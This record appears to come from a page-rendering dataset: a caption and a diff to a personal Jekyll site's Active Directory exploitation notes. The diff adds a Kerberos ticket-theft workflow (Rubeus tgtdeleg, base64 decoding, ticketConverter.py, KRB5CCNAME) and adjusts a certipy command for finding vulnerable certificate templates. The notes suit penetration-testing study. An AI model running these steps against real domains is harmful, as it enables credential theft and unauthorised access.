

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 9207 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -39,6 +39,7 @@
     - `--reg-sessions` was a recent addition to query user sessions on a machine
     - `-M` for modules, like exploits and such
   - Can also execute commands with `-X 'powershell -e ...'`
+  - If we get something like `STATUS_ACCOUNT_RESTRICTED`, it likely means we need kerberos or the account can only log in at a certain time
 - `smbclient.py {ip}` for an interactive SMB client
   - list shares with `shares` and select a share with `use {share_name}`
   - `tree` to recursively list files in the share
@@ -362,6 +363,14 @@
     - `-r {domain}` optional, used for kerberos
     - `--ssl` for 5986 over HTTPS
 
+## Getting credentials with execution
+- Sometimes, it's the other way around - we might have command execution, but we need a ticket to perform other operations
+- This can be done with a combination of `Rubeus` and `ticketConverter.py`
+  - `Rubeus.exe tgtdelev /nowrap` gives us a b64 kirbi ticket
+  - `echo '{base64-ticket} | base64 -d > {user}.kirbi` to decode from b64
+  - `ticketConverter.py {user}.kirbi {user}.ccache` to get the kerberos ticket
+  - `export KRB5CCNAME={user}.ccache` and we're good to go
+
 ## ADCS
 - [ESC 1-16 breakdown with exploitation steps](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
   - Follow these steps to a TEE. It might say "optional" or something, but just do it, it can be finnicky
@@ -371,7 +380,7 @@
     - Requires compilation, unless we want to use [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe)
   - `Certify.exe find /vulnerable`
 - certipy
-  - `certipy find -u {user}@{domain} -p {password} (-hashes {nthash}) -dc-ip {dc_ip} -text`
+  - `certipy find -u '{user}'@{domain} -p {password} (-hashes {nthash}) -dc-ip {dc_ip} -text`
     - Use `-vulnerable` to cut the output down a bit
   - This will identify if any certificate authorities are vulnerable to ESC1 through ESC16
     - If they are, refer to [Orange Cyberdefense's mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg) for exploitation details on each
```
Also changed, not shown: markdown/Phishing.md (+6 -0 lines).
